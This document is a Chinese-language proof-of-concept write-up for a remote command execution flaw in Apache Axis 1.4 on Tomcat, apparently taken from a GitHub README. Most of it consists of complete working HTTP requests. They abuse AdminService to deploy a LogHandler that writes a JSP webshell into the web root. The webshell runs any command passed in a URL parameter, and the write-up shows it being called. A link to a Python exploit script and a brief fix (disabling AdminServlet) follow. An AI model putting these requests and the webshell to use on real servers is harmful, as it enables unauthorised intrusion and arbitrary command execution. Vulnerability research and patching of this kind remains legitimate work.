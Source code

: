 ## Axis <=1.4   远程命令执行（RCE） POC

###  环境准备
首先下载Axis1.4 本仓库有一个打包好的axis直接解压到tomcat webapps下即可 ,web-inf/web.xml 去掉AdminServlet注释

![avatar](https://kibodwapon.github.io/2019/07/04/is-1-4-远程命令执行POC/web-inf.jpg)

然后，server-config.wsdd文件开启enableRemoteAdmin （本地环境可以不管）
![avatar](https://kibodwapon.github.io/2019/07/04/is-1-4-远程命令执行POC/config.jpg)
本人部署在tomcat8上
### 利用
#### 第一步：
通过services/AdminService 服务 部署一个webservice ,webservice开启一个写文件服务。这里我们要写入的文件名是../webapps/ROOT/shell.jsp，服务模块的工作路径是bin目录，这里利用相对路径写入ROOT目录，也就是tomcat默认根目录。

```
POST /axis/services/AdminService HTTP/1.1
Host: localhost:8080
Connection: close
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0
Accept-Language: en-US,en;q=0.5
SOAPAction: something
Upgrade-Insecure-Requests: 1
Content-Type: application/xml
Accept-Encoding: gzip, deflate
Content-Length: 1063

<?xml version="1.0" encoding="utf-8"?>
<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xmlns:api="http://127.0.0.1/Integrics/Enswitch/API"
        xmlns:xsd="http://www.w3.org/2001/XMLSchema"
        xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Body>
    <ns1:deployment
  xmlns="http://xml.apache.org/axis/wsdd/"
  xmlns:java="http://xml.apache.org/axis/wsdd/providers/java"
  xmlns:ns1="http://xml.apache.org/axis/wsdd/">
  <ns1:service name="RandomService" provider="java:RPC">
    <requestFlow>
      <handler type="RandomLog"/>
    </requestFlow>
    <ns1:parameter name="className" value="java.util.Random"/>
    <ns1:parameter name="allowedMethods" value="*"/>
  </ns1:service>
  <handler name="RandomLog" type="java:org.apache.axis.handlers.LogHandler" >  
    <parameter name="LogHandler.fileName" value="../webapps/ROOT/shell.jsp" />   
    <parameter name="LogHandler.writeToConsole" value="false" /> 
  </handler>
</ns1:deployment>
  </soapenv:Body>
</soapenv:Envelope>
```

![avatar](https://kibodwapon.github.io/2019/07/04/is-1-4-远程命令执行POC/step1.jpg)
####  第二步
调用上一步创建的恶意webservice 写入webshell
```
POST /axis/services/RandomService HTTP/1.1
Host: localhost:8080
Connection: close
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0
Accept-Language: en-US,en;q=0.5
SOAPAction: something
Upgrade-Insecure-Requests: 1
Content-Type: application/xml
Accept-Encoding: gzip, deflate
Content-Length: 878

<?xml version="1.0" encoding="utf-8"?>
        <soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xmlns:api="http://127.0.0.1/Integrics/Enswitch/API"
        xmlns:xsd="http://www.w3.org/2001/XMLSchema"
        xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
        <soapenv:Body>
        <api:main
        soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
            <api:in0><![CDATA[
<%@page import="java.util.*,java.io.*"%><% if (request.getParameter("c") != null) { Process p = Runtime.getRuntime().exec(request.getParameter("c")); DataInputStream dis = new DataInputStream(p.getInputStream()); String disr = dis.readLine(); while ( disr != null ) { out.println(disr); disr = dis.readLine(); }; p.destroy(); }%>
]]>
            </api:in0>
        </api:main>
  </soapenv:Body>
</soapenv:Envelope>

```
返回500，不用管，但是文件已经创建成功了
![avatar](https://kibodwapon.github.io/2019/07/04/is-1-4-远程命令执行POC/stap2.jpg)
看我们ROOT目录下shell文件，虽然有些错误，但是不影响，因为是log模式，有追加内容
![avatar](https://kibodwapon.github.io/2019/07/04/is-1-4-远程命令执行POC/shell.jpg)
#### 第三步
执行shell.jsp

浏览器访问 http://localhost:8080/shell.jsp?c=cmd%20/c%20ipconfig

同样忽略网页报错
![avatar](https://kibodwapon.github.io/2019/07/04/is-1-4-远程命令执行POC/cmd.jpg)
网页右键查看源码，可以看执行命令的结果。

![avatar](https://kibodwapon.github.io/2019/07/04/is-1-4-远程命令执行POC/cmd1.jpg)

python 脚本下载地址：
 [POC](https://github.com/KibodWapon/Axis-1.4-RCE-Poc/blob/master/Axis1.4_rce_poc.py "Axis1.4_rce_poc.py").


### 影响和修复
默认情况下service远程管理没开启，也即配置文件中enableRemoteAdmim为false，也就是只能本地localhost访问，这种情况下可以结合ssrf和xxe进行利用，所以比较鸡肋，但是安全无小事，对于命令执行漏洞还是应该重视。修复的话，关闭admin服务即可，具体方法注释掉web-inf/web.xml 里的AdminServlet，然后重启tomcat.
```
  <servlet-mapping>
    <servlet-name>AdminServlet</servlet-name>
    <url-pattern>/servlet/AdminServlet</url-pattern>
  </servlet-mapping>

```

